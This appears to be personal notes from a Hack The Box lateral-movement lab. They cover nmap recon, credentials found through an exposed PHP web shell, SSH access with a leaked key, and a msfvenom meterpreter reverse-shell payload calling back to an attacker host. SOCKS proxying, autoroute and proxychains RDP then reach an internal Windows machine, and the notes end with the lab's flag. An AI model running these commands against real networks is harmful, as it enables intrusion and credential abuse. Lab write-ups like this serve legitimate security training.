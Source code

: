 Target IP
```go
10.129.229.129
```

## NMAP COMMAND
```go
nmap -sV -sC -A 10.129.229.129
```

Open ports
```go
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
```

```go
80/tcp open  http    Apache httpd 2.4.41
```

## Investigate NMAP output

NMAP output reveals the http-title to be `p0wny@shell`? 
```go
Nmap scan report for 10.129.229.129
Host is up (0.020s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: p0wny@shell:~#
```

- Found on [GitHub](https://github.com/flozz/p0wny-shell), it's revealed to be a PHP shell.
- Web browser shows available via the browser
- Enumerating the directories, there are two user directories: `administrator` and `webadmin`, though only `webadmin` is available to us

>[!success] Enumerating the directories there is a note in `/home/webadmin/for-admin-eyes-only` stating the credentials needed to access server01 and other servers in the subnet

![[Pasted image 20241229165238.png]]

==Credential discovery #1==
^first-creds
Creds found for `server01` 
username ^325593
```
mlefay
```

password
```
Plain Human work!
```

#### p0wnyshell default creds found in script
![[p0wnyshell_creds.png]]

==Credential Discovery #2==
^second-creds
username
```go
p0wny
```
password
```go
shell
```

#### private_key found
Found the private key and it is readable!
![[HTB Field Manual/5-Lateral Movement/Skill Assessment/screenshots/private_key.png]]

## Pivot Host Compromise

- Copy the contents of the private key into `id_rsa`
- SSH into the web server with the private key and the `webadmin` username

SSH into the webserver
```go
ssh -i ~/.ssh/target_pvt_key webadmin@10.129.229.129
```

Ping sweep 
```go
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

IP of second host found 
```
172.16.5.35
```
![[pivot_host_ips.png]]

This box is the pivot host.
![[Pasted image 20250403220026.png]]

Generate msfvenom payload
```go
bundle exec msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.15.129 -f elf -o backupjob LPORT=8080
```

Copy backupjob to webadmin server
```go
scp -i ~/.ssh/target_pvt_key backupjob webadmin@10.129.229.129:/tmp
```

Configure the metasploit reverse_tcp payload
```go
use exploit/multi/handler
```

```go
set lhost 0.0.0.0
```

```go
set lport 8080
```

```go
set payload linux/x64/meterpreter/reverse_tcp
```

```go
run
```

Execute the `backupjob` payload on the pivot host, the meterpreter session will be established on the attack host.
![[initial_meterpreter_session.png]]

REMINDER
>[! Important] Second Host IP is 172.16.5.35

Facts:
- There is no route from my attack host to this internal subnet
- The pivot host has access to both the 172.16.5.0/23 range and the the 10.0.0.0/8 range
- I need to establish a proxy on the attack host so that I can reach the 172.16.5.35 machine

### Configure MSF's SOCKS Proxy

>[! tip ] Remember, SOCKS Proxy acts as a local proxy and will establish a route based on the destination 

>[! Warning] Before proceeding, ensure the line `socks4  127.0.0.1 9050` is present in `/etc/proxychains.conf`

Background the current mfs6 sessions with the `bg` command, then execute the following:

```go
use auxiliary/server/socks_proxy
```

```go
set SRVPORT 9050
```

```go
set SRVHOST 0.0.0.0
```

```go
set version 4a
```

```go
run
```

The msf6 socks_proxy module must route all traffic via the meterpreter session. Use the `post/multi/manage/autoroute` module to add routes for `172.16.5.0`

### Adding routes via AutoRoute Metasploit module

```go
use post/multi/manage/autoroute
```

```go
set SESSION 1
```

```go
set SUBNET 172.16.5.0
```

```go
run
```

After executing the run command, you should see output same as the below:
```go
msf6 post(multi/manage/autoroute) > run

[*] Running module against inlanefreight.local
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
```

If doing from the Meterpreter session...
```go
run autoroute -s 172.16.5.0/23
```

Scanning internal target 172.16.5.35 via proxychains
```go
proxychains nmap 172.16.5.35 -p3389 -sT -v -Pn
```

Output:
```go
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-30 12:55 EST
Initiating Parallel DNS resolution of 1 host. at 12:55
Completed Parallel DNS resolution of 1 host. at 12:55, 0.03s elapsed
Initiating Connect Scan at 12:55
Scanning 172.16.5.35 [1 port]
Completed Connect Scan at 12:56, 2.00s elapsed (1 total ports)
Nmap scan report for 172.16.5.35
Host is up.

PORT     STATE    SERVICE
3389/tcp filtered ms-wbt-server

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
```

This shows port 3389 is filtered. Attempt a remote session to the Windows target via xfreerdp

RDP into Windows target using the creds from [[#^325593 | first creds found]] 
```go
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:Plain Human work!
```

Flag Acquired
```go
S1ngl3-Piv07-3@sy-Day
```
![[HTB Field Manual/5-Lateral Movement/Skill Assessment/screenshots/flag.png]]


